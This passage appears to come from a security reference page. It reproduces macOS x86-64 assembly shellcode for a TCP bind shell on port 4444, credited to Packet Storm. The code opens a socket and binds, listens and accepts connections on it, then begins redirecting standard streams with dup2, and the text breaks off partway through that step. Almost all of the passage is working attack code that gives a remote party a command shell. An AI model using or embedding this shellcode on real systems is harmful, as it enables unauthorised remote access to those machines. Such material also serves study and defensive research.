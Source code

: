 #### Bind shell

Bind shell from [https://packetstormsecurity.com/files/151731/macOS-TCP-4444-Bind-Shell-Null-Free-Shellcode.html](https://packetstormsecurity.com/files/151731/macOS-TCP-4444-Bind-Shell-Null-Free-Shellcode.html) in **port 4444**

```armasm
section .text
global _main
_main:
    ; socket(AF_INET4, SOCK_STREAM, IPPROTO_IP)
    xor  rdi, rdi
    mul  rdi
    mov  dil, 0x2
    xor  rsi, rsi
    mov  sil, 0x1
    mov  al, 0x2
    ror  rax, 0x28
    mov  r8, rax
    mov  al, 0x61
    syscall

    ; struct sockaddr_in {
    ;         __uint8_t       sin_len;
    ;         sa_family_t     sin_family;
    ;         in_port_t       sin_port;
    ;         struct  in_addr sin_addr;
    ;         char            sin_zero[8];
    ; };
    mov  rsi, 0xffffffffa3eefdf0
    neg  rsi
    push rsi
    push rsp
    pop  rsi

    ; bind(host_sockid, &sockaddr, 16)
    mov  rdi, rax
    xor  dl, 0x10
    mov  rax, r8
    mov  al, 0x68
    syscall    

    ; listen(host_sockid, 2)
    xor  rsi, rsi
    mov  sil, 0x2
    mov  rax, r8
    mov  al, 0x6a
    syscall

    ; accept(host_sockid, 0, 0)
    xor  rsi, rsi
    xor  rdx, rdx
    mov  rax, r8
    mov  al, 0x1e
    syscall

    mov rdi, rax
    mov sil, 0x3

dup2:
    ; dup2(client_sockid, 2)
    ;   -> dup2(client_sockid, 1)
    ;   -> dup2(client_sockid, 0)
    mov  rax, r8
```